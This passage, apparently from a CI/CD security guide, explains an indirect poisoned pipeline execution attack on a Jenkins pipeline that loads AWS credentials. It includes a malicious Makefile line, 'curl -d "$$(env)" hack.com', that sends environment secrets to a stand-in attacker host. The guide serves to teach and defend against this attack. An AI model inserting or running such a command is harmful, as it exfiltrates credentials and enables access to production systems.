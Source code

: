```GROOVY
pipeline {
   agent any
   stages {
       stage('build') {
           steps {
               withAWS(credentials: 'AWS_key', region: 'us-east-1') {
                       sh 'make build'
                       sh 'make clean'
               }
           }
       }
       stage('test') {
           steps {
               sh 'go test -v ./...'
...
```


The Makefile:


```MAKEFILE
build:
   echo "building…"

clean:
   echo "cleaning…"
```

![alt_text](assets/images/ippe.jpg)

In this scenario, an I-PPE attack would be carried out as follows:



1. An attacker creates a pull request in the repository, appending malicious commands to the _Makefile_ file.


```MAKEFILE
build:
   curl -d "$$(env)" hack.com

clean:
   echo "cleaning…"

```



2. Since the pipeline is configured to be triggered upon any PR against the repo, the Jenkins pipeline is triggered, fetching the code from the repository, including the malicious _Makefile_.
3. The pipeline runs based on the configuration file stored in the main branch. It gets to the _build_ stage, and loads the AWS credentials into environment variables - as defined in the original Jenkinsfile. Then, it runs the _make build_ command, which executes the malicious command that was added into _Makefile_.
4. The malicious _build_ function defined in the Makefile is executed, sending the AWS credentials to a server controlled by the attacker.
5. The attacker is then able to use the stolen credentials to access the AWS production environment.
